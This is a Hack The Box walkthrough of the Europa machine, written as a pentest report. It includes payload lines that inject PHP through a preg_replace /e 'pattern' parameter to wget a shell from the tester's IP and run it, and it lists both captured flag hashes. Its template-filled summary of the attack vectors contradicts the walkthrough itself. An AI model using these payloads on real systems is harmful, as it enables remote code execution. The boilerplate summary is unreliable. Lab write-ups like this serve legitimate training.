# Offensive Security Assessment Report: Europa


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Europa** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** SQLi + LFI → RCE (log poisoning)
* **Privilege Escalation Vector:** SUID/cron en /opt
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Europa |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | SQLi + LFI → RCE (log poisoning) |
| **Privilege Escalation Vector** | SUID/cron en /opt |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: SQLi + LFI → RCE (log poisoning)
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: SUID/cron en /opt
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many TCP ports are listening on Europa?

* **Observed Evidence / Output:** 3



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the admin-related subdomain of europacorp.htb?

* **Observed Evidence / Output:** admin-portal.europacorp.htb



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


**The login form to the admin panel can be bypassed using what technique? Choose from "LDAP Injection", "SQL Injection", or "Command Injection".**

* **Observed Evidence / Output:** **SQL Injection**



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


**When submitting an HTTP POST request to `tools.php`, what parameter contains a regular expression (regex)?**

* **Observed Evidence / Output:** pattern



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the website running as?



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
 pattern=/^(.*)/e&ipaddress=system(`wget http://10.10.14.8/shell.php -P /tmp`);&text=test
 pattern=/^(.*)/e&ipaddress=system(`php -f /tmp/shell.php`);&text=test
```


> **Assessment Query / Target Milestone:** What user is the website running as?

* **Observed Evidence / Output:** www-data

**Submit the flag located in the john user's home directory.**

* **Observed Evidence / Output:** 5ee9167500b3893c6a195b0d4cf56354



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the file that is executed as root every minute?

* **Observed Evidence / Output:** /var/www/cronjobs/clearlogs



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path of the file that is executed by `clearlogs`?

* **Observed Evidence / Output:** /var/www/cmd/logcleared.sh



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** f18582b5d14bb51d574b4bcf19ff3abd



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (SQLi + LFI → RCE (log poisoning)) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (SUID/cron en /opt) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
